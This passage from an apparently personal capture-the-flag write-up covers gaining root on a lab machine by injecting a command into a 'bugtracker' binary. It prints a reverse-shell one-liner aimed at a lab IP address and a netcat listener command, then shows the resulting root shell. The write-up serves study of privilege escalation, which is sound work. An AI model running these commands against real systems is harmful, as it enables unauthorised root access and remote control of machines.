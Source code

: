 Okay, so my payload should look like this:

    ;<PAYLOAD>

Really easy.

Maybe I want to open a second reverse shell to get root shell.

Shellception...

Victim:

    cd /usr/bin
    ./bugtracker
    ;sh -i >& /dev/udp/10.10.14.165/1245 0>&1

Attacker:

    nc -u -lvp 1245

Weird. I used the payload for the victim but I didn't need to open `nc` on my end.

```
# whoami
whoami
root
```

```
# cat root.txt
cat root.txt
<no id for u :3>
```

Woohoo! It only took like 6+ days. Onto the next box, hopefully with less guide-checking.

## TODO/interesting

<https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>

<https://github.com/frizb/Linux-Privilege-Escalation>